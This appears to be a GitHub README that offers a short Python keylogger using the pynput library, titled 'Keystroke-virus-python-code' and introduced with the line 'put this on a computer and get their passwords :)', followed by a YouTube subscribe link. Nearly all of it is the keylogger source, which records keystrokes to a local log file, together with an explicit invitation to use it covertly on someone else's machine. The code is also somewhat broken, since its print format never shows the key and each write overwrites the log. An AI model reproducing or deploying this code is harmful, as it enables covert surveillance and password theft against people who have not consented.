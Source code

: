 # Keystroke-virus-python-code
put this on a computer and get their passwords :)

*******************************************


import pynput

from pynput.keyboard import Key, Listener

count=0
keys= []

def on_press(key):
    global keys, count

    keys.append(key)
    count +=1
    print("(0)pressed".format(key))

    if count >= 10:
        count=0
        write_file(keys)
        keys= []


def write_file(keys):
    with open("log.txt","w") as f:
        for key in keys:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write('/')
            elif k.find("Key") == -1:
                f.write(k)






def on_release(key):
    if key == Key.esc:
        return False


with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
    
    
    ********************************8
    Subscriber here!
    https://www.youtube.com/channel/UCgsJ63FUmiLSuryd0KedGTA
    
 

